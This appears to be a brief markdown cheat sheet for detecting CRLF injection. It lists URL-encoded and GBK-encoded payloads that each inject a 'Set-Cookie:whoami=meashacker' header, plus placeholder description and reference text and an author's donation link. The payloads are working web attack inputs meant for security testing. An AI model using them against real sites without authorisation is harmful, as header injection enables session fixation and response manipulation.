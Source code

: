 # CRLF - General Detection

### Description
details
</br>&nbsp;

## Sub Techniques
### 1. Noraml Payloads
- Aplicable to CR
```
%0D%0A%20Set-Cookie:whoami=meashacker
%20%0D%0ASet-Cookie:whoami=meashacker
%0A%20Set-Cookie:whoami=meashacker
%2F%2E%2E%0D%0ASet-Cookie:whoami=meashacker
```
### 2. GBK Encoding
- Aplicable to CR
```
%E5%98%8D%E5%98%8ASet-Cookie:whoami=meashacker
```

<br>&nbsp;
## References:
[Reference](ref)</br>

<br>&nbsp;
## Support
You can Follow [me](https://twitter.com/MeAsHacker_HNA) on twitter or
<br><br><a href="https://www.buymeacoffee.com/NafisiAslH" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-yellow.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 217px !important;" ></a>
